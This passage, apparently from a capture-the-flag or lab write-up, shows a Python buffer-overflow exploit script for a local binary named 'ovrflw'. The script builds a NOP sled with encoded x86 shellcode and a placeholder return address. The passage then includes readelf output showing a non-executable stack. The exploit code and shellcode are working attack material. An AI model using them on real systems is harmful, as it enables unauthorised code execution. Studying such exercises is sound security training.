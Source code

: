 I then updated my exploit to include the exploit in the buffer:

```python
import struct
import sys 

shellcode = b"" 
shellcode += b"\xdb\xd9\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0c\xba\x17"
shellcode += b"\xa5\x80\x35\x31\x53\x18\x03\x53\x18\x83\xeb\xeb\x47"
shellcode += b"\x75\x5f\x18\xd0\xef\xf2\x78\x88\x22\x90\x0d\xaf\x55"
shellcode += b"\x79\x7e\x58\xa6\xed\xaf\xfa\xcf\x83\x26\x19\x5d\xb4"
shellcode += b"\x32\xde\x62\x44\x6d\xbc\x0b\x2a\x5e\x22\xad\xc1\xc8"
shellcode += b"\xa2\x7a\x75\x81\x42\x49\xf9"

buf_len = 112 
eip = struct.pack("<I", 0xdeadbeef)
buf = b"\x90" * (buf_len - len(shellcode)) + shellcode
buf += eip 

sys.stdout.buffer.write(buf)
```

Before proceeding, I wanted to check whether the stack was executable to verify whether I could execute shellcode directly from the buffer I used to overflow the stack:

```none
$ readelf -l /usr/local/bin/ovrflw

Elf file type is EXEC (Executable file)
Entry point 0x8048380
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00658 0x00658 R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x00120 0x00124 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x00057c 0x0804857c 0x0804857c 0x0002c 0x0002c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .jcr .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .jcr .dynamic .got
```
